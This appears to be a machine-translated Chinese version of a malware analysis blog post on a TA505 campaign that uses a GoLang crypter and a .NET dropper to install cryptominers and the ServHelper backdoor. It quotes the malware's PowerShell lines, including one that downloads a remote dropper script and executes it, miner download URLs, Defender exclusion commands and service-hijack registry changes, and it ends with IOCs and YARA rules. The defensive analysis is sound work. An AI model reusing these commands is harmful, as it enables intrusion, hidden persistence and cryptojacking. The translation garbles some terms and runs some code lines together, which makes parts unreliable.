









# TA505 增加了传送矿工和服务助手的 GoLang 密码器

> 原文：<https://medium.com/walmartglobaltech/ta505-adds-golang-crypter-for-delivering-miners-and-servhelper-af70b26a6e56?source=collection_archive---------0----------------------->

作者:杰森·里维斯和约书亚·普拉特


最近，我们发现了一个由许多其他组织[1，2，4]详述的活动，该活动正被利用来提供与 TA505 相关的恶意软件，即最近活动的 ServHelper[3]。在 Avira 的一篇文章[4]中，他们将使用 NSIS 装载机的旧战役联系起来，但最近的战役已经发展到也利用包裹的 GoLang 密码器。NET 加载程序来启动这个链。

# 密码器

crypter 层是用 GoLang 编写的，旨在混淆下一层，它看起来是 BASE64，但其中有其他字符。



其他一些函数参数会让我相信它在替换字符串中的字符。



我们可以通过查看字符串中是否存在“A”来进行快速检查:



具有相同密码器的另一个文件利用替换两个字节而不是一个字节:



在解码这一层之后，我们剩下一个名为“Dropper 1.0.0”的. NET 可执行文件，它有一些有趣的资源。



在程序的主要组件中开始执行:



然后运行“Form1”:



在“InitializeComponent”函数中，我们可以看到“Form1_Load”被设置为 EventHandler，它实际上负责引爆 powershell 脚本资源。



脚本“ready.ps1”为一些函数设置了一个类，并引发了“get-content.ps1”脚本，该脚本处理安装和设置大量可执行文件以及后门和持久性。它还可以拉入其他文件进行引爆:

```
$g=New-Object -ComObject Msxml2.XMLHTTP;$g.open('GET',"hxxp://88[.]119.171.253/dropper.ps1",$false);$g.send();iex $g.responseText
```

这个 dropper powershell 脚本包含许多层混淆，但最终导致一个脚本将为比特币和 Eth 安装多个矿工机器人。

```
$payloadurl="http://beautyiconltd.cn/ethged.txt"
$configurl="http://beautyiconltd.cn/ethcnf.txt"
$hash=(New-Object Net.Webclient).downloadstring("http://beautyiconltd.cn/ethhsh.txt")
```

# **PowerShell 加载程序**

前面的 Get-Content powershell 文件在结构上与本文[1]中列出的文件非常相似。powershell 文件将多个文件写入与 RDP 服务相关的磁盘，包括用于设置服务的注册表 blob:

```
Windows Registry Editor Version 5.00[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"DependOnService"=hex(7):52,00,50,00,43,00,53,00,53,00,00,00,00,00
"Description"="@%SystemRoot%\\System32\\termsrv.dll,-267"
"DisplayName"="@%SystemRoot%\\System32\\termsrv.dll,-268"
"ErrorControl"=dword:00000001
"FailureActions"=hex:80,51,01,00,00,00,00,00,00,00,00,00,03,00,00,00,14,00,00,\
  00,01,00,00,00,60,ea,00,00,01,00,00,00,60,ea,00,00,00,00,00,00,60,ea,00,00
"ImagePath"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,00,\
  74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,73,\
  00,76,00,63,00,68,00,6f,00,73,00,74,00,2e,00,65,00,78,00,65,00,20,00,2d,00,\
  6b,00,20,00,4e,00,65,00,74,00,77,00,6f,00,72,00,6b,00,53,00,65,00,72,00,76,\
  00,69,00,63,00,65,00,00,00
"ObjectName"="NT Authority\\NetworkService"
"RequiredPrivileges"=hex(7):53,00,65,00,41,00,73,00,73,00,69,00,67,00,6e,00,50,\
  00,72,00,69,00,6d,00,61,00,72,00,79,00,54,00,6f,00,6b,00,65,00,6e,00,50,00,\
  72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,53,00,65,00,41,00,75,\
  00,64,00,69,00,74,00,50,00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,\
  00,00,53,00,65,00,43,00,68,00,61,00,6e,00,67,00,65,00,4e,00,6f,00,74,00,69,\
  00,66,00,79,00,50,00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,\
  53,00,65,00,43,00,72,00,65,00,61,00,74,00,65,00,47,00,6c,00,6f,00,62,00,61,\
  00,6c,00,50,00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,53,00,\
  65,00,49,00,6d,00,70,00,65,00,72,00,73,00,6f,00,6e,00,61,00,74,00,65,00,50,\
  00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,53,00,65,00,49,00,\
  6e,00,63,00,72,00,65,00,61,00,73,00,65,00,51,00,75,00,6f,00,74,00,61,00,50,\
  00,72,00,69,00,76,00,69,00,6c,00,65,00,67,00,65,00,00,00,00,00
"ServiceSidType"=dword:00000001
"Start"=dword:00000003
"Type"=dword:00000020[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Parameters]
"ServiceDll"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,\
  00,74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,\
  74,00,65,00,72,00,6d,00,73,00,72,00,76,00,2e,00,64,00,6c,00,6c,00,00,00
"ServiceDllUnloadOnStop"=dword:00000001[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService\Performance]
"Close"="CloseTSObject"
"Collect"="CollectTSObjectData"
"Collect Timeout"=dword:000003e8
"Library"="C:\\Windows\\System32\\perfts.dll"
"Open"="OpenTSObject"
"Open Timeout"=dword:000003e8
"InstallType"=dword:00000001
"PerfIniFile"="tslabels.ini"
"First Counter"=dword:0000238c
"Last Counter"=dword:0000238c
"First Help"=dword:0000238d
"Last Help"=dword:0000238d
"Object List"="9100"
```

为此注册表 blob 列出的 ServiceDll 是:

```
%SystemRoot%\\System32\\termsrv.dll\x00
```

然而，在安装了这个新服务之后，它就停止了，因此这看起来是为简单地建立占位符服务而设计的:

```
}
write-host kill
set-service TermService -StartupType Disabled
$tspid=(get-wmiobject win32_service | where { $_.name -eq 'TermService'}).processID
Stop-Process -Id $tspid -Forceew-Service -Name "termservice" -BinaryPathName "C:\WINDOWS\System32\svchost.exe -k networkservice"
 reg import $env:temp\rpds.reg}
write-host kill
set-service TermService -StartupType Disabled
$tspid=(get-wmiobject win32_service | where { $_.name -eq 'TermService'}).processID
Stop-Process -Id $tspid -Force
```

写入磁盘的大多数文件都与 RDPWrap 所需的文件相关，但有两个文件似乎与 RDPWrap 无关，它们也是 UPX 打包的。这些文件作为硬编码文件写入磁盘。

```
$fldr=$env:systemroot+"\branding\"
$bf="mediasvc.png"
$rf="mediasrv.png"
$cf="wupsvc.jpg"
```

其中一个文件将被设置为前面提到的占位符服务的新 ServiceDLL 值:

```
reg add "HKLM\system\currentcontrolset\services\TermService\parameters" /v ServiceDLL /t REG_EXPAND_SZ /d $fldr$rf /f
```

# 有效载荷

该文件自称为“Helper ”,它包含编码字符串:



创建一个快速的字符串解码器可以让我们快速转储字符串，并看到该文件是为访问另外两个文件而设计的，一个是 DLL 文件，另一个是 RDPWrap 配置文件，同时还可以收集关于它所在系统的一些信息。

```
SLIn
wupsvc.jpg
wupsvc.jpg
termsrv.dll
ServiceMain
termsrv.dll
Main
slc.dll
Main
slc.dll
%d.%d.%d.%d
New_Win8SLE
New_Win8SLE
SLInitHook.x64A
SLInitFunc.x64A
asfjiau4hghas
ows\branding
\mediasvc.png
             _
vsdlskdngsj
vsdlskdngsj
SLGetWindowsInformationDWORD
```

写入磁盘的另一个 DLL 也是 UPX 打包的，它是我们最感兴趣的，这是 ServHelper[3]的隧道变体，在 BinaryDefense[2]的博客文章中有详细描述。这篇博文非常全面，与我们在示例中看到的 ServHelper 相关配置数据非常吻合:

```
{'C2': ['asdjausg.cn', 'potuybze.xyz', 'asfuuvhv3083f.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}
```

# **结论**

一个有趣的圆，从发现一个 GoLang 地穴开始。NET loader 用于删除矿工机器人，也用于提供服务助手。

# **IOCs**

GoLang 加密文件:

```
b591e73c3ebfe7ba44eb161c3cc1ee7b9a794d4e9b9b9aa4e3936f518e814ceb
6eca26fcfabbb12c6a37eb689de222e75b31574dd25e7fd3d8b446d700c40133
```

ServHelper 配置:

```
{'C2': ['hopeithelps.xyz', 'adsgjuhsdgubhu4.xyz', 'zbuurhbbc.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}{'C2': ['asdjausg.cn', 'potuybze.xyz', 'asfuuvhv3083f.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}{'C2': ['afditnzurh.xyz', 'kbpsorjbus6.pw', 'aspdivhvy7a.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/moist/b.php']}{'C2': ['asdjausg.cn', 'potuybze.xyz', 'asfuuvhv3083f.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ipa/b.php']}{'C2': ['askduvjuz.xyz', 'pasobjub.xyz', 'pasgugbz3u4a.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/oiggb/b.php']}{'C2': ['askduvjuz.xyz', 'pvobijrrvvz.xyz', 'pafsovbhyda.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/arefgw/b.php']}{'C2': ['askduvjuz.xyz', 'soduvhyuvz.xyz', 'pafsovbhyda.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/zpsiig/b.php']}{'C2': ['dsfamsi4b.cn', 'asfjjasguasus.xyz', 'pssoduvnzud.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/jndury/b.php']}{'C2': ['hitnaiguat.xyz', 'whereihjeu3.xyz', 'sagiai3agar.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/ctp/b.php']}{'C2': ['homate.xyz', 'psdgiigjsjavy3.xyz', 'microkgww2.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/resist/b.php']}{'C2': ['protosaur.xyz', 'gaiter12fa.xyz', 'dooter41ag.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/cerat/b.php']}{'C2': ['wheredoyougo.cn', 'afggaiir3a.xyz', 'gigiuuruyahv.cn', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/seger/b.php']}{'C2': ['zalerha7315.xyz', 'agutagndie.cn', 'gpogjbuehuvh.xyz', 'http://bromide.xyz/ssh.zip', 'http://sdsddgu.xyz/khkhkt'], 'PIPES': ['\\\\.\\pipe\\txtpipe', '\\\\.\\pipe\\anspipe'], 'URI': ['/imp/b.php']}
```

PowerShell 加载程序辅助程序:

```
http://45.61.136.223/get/arch.php
http://45.61.136.223/get/getter.php
http://45.61.136.223/get/grep.php
http://45.61.136.223/get/m5.php
http://88.119.171.253/dropper.ps1
```

终点指标:

```
schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Nullreg add "HKLM\system\currentcontrolset\services\TermService\parameters" /v ServiceDLL$env:username | out-file c:\windows\temp\usrnm.txttakeown.exe /A /F rfxvmt.dllicacls.exe rfxvmt.dll /inheritance:d
icacls.exe rfxvmt.dll /setowner "NT SERVICE\TrustedInstaller"
icacls.exe rfxvmt.dll /grant "NT SERVICE\TrustedInstaller:F"icacls.exe rfxvmt.dll /remove "NT AUTHORITY\SYSTEM"
icacls.exe rfxvmt.dll /grant "NT AUTHORITY\SYSTEM:RX"
#
icacls.exe rfxvmt.dll /remove "BUILTIN\Administrators"
icacls.exe rfxvmt.dll /grant "BUILTIN\Administrators:RX"write-host inst
$Job = Start-Job -ScriptBlock {Add-MpPreference -ExclusionPath "C:\windows\branding\*"}
$Job | Wait-Job -Timeout 15
$Job | Stop-Job
$Job =Start-Job -ScriptBlock {Add-MpPreference -ExclusionPath "C:\users\wgautilacc\desktop\*" -force}
$Job | Wait-Job -Timeout 15
$Job | Stop-Job
$Job =Start-Job -ScriptBlock {Add-MpPreference -ExclusionPath "C:\users\mirrors\desktop\*"}
$Job | Wait-Job -Timeout 15
$Job | Stop-Job
#Add-MpPreference -ExclusionPath "C:\windows\branding\*"
#Add-MpPreference -ExclusionPath "C:\users\wgautilacc\desktop\*" -force
#Add-MpPreference -ExclusionPath "C:\users\mirrors\desktop\*"
```

YARA:

```
rule unpacked_servhelper
{
    meta:
        author = "Jason Reaves"
    strings:
        $string_1 = {48 8d 15 ?? ?? 00 00 4c 8d 05 ?? ?? 00 00 41 b9 ?? ?? ?? 00 e8}
 $val = "SELECT Name FROM Win32_Group where SID=" wide
    condition:
        uint16(0) == 0x5A4D and all of them
}rule unpacked_helper
{
meta:
 author = "Jason Reaves"
 sample1 = "620c009cd021b02d789a8a084e03a17a95b1606950d1db9dcbced29dadc0e1dc"
 sample2 = "0b53130e094f715b729af44cdfbcd7c81ed37d71528c31e2a03fd2d5c3adfe0e"
strings:
$a1 = "Copyright (C) Helper 20" wide
$s_decode = {8b c2 48 8d 4c 24 ?? 48 03 c8 8d 42 ?? 30 01 ff c2 8b 44 24 ?? 3b d0 72 e7}
condition:
all of them
}
```

# 参考

1:【https://suid.ch/research/Telegram_Malware_Analysis.html】T4

2:[https://www . binary defense . com/an-updated-serv helper-tunnel-variant/](https://www.binarydefense.com/an-updated-servhelper-tunnel-variant/)

3:[https://www . proof point . com/us/threat-insight/post/serv helper-and-flawedgrace-new-malware-introduced-ta 505](https://www.proofpoint.com/us/threat-insight/post/servhelper-and-flawedgrace-new-malware-introduced-ta505)

4:[https://www . avira . com/en/blog/ta 505-apt-group-targets-Americas](https://www.avira.com/en/blog/ta505-apt-group-targets-americas)